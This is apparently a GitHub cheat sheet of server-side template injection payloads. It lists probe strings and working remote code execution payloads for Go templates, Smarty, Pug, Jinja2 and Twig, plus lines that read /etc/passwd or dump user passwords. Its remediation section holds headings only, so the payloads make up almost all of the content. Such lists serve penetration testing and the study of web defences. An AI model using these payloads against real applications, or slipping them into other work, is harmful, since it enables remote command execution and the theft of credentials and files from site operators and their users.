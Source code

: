 # Resource for more complicated payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

# https://book.hacktricks.xyz/

## Payloads Fuzzing: ${{<%'"}}%

## PoC Payload for Identification: ${7*'7'}

## Explaining further about more template engines here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remediation:

### 1: Secure methods

### 2: Sanitization

## Example payloads of different templates:

## Go SSTI

#### 1) {{ .Password }} (Fetches the passwords of all users) Hint: It depends on the struct the application has been made of to use the correct one! 

#### 2) {{ .GetFile "/etc/passwd" }} (Gets the passwd linux file)

#### 3) {{ .ExecuteCmd "whoami" }} Executes commands

#### 4) {{ . }} (Dumps variables)

## PHP - Smarty

#### PoC Enumeration Payload

    {'Hello'|upper}
  
#### RCE Payload

    {system("id")}

## NodeJS - Pug

### PoC Payload

    #{7*7}

### RCE Payload

    #{root.process.mainModule.require('child_process').spawnSync('id').stdout}

### SpawnSync RCE Payload with arguments

    #{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}

## Python - Jinja2

### PoC Payload

    {{7*7}}

### RCE Payload

    {{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("id")}}

### check_output RCE Payload with arguments

    {{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['ls', '-lah'])}}

## PHP - Twig

### PoC Payload

    {{7*7}}

### RCE Payload

    {{exec('id')}}

    {{['id',""]|sort('passthru')}}
